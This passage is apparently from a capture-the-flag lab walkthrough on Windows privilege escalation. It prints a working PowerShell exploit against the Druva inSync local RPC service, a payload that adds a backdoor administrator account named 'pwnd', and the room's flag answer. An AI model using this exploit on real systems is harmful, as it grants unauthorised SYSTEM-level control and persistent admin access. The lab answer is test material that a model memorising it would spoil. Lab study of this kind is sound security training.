 $cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at ```C:\tools\Druva_inSync_exploit.txt```). Note that the exploit's default payload, specified in the ```$cmd``` variable, will create a user named pwnd in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:
```
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```
This will create user ```pwnd``` with a password of ```SimplePass123``` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user pwnd exists and is part of the administrators' group:

Command Prompt
```
PS C:\> net user pwnd
User name                    pwnd
Full Name
Account active               Yes
[...]

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```
As a last step, you can run a command prompt as administrator:

![img](/assets/img/wpe14.png)


When prompted for credentials, use the ```pwnd``` account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command type 
```
C:\Users\Administrator\Desktop\flag.txt
```

1. Get the flag on the Administrator's desktop.
Answer: 
THM{EZ_DLL_PROXY_4ME}

![img](/assets/img/wpe23.png)

![img](/assets/img/wpe24.png)

![img](/assets/img/wpe25.png)

---

Task 8 - Tools of the Trade
```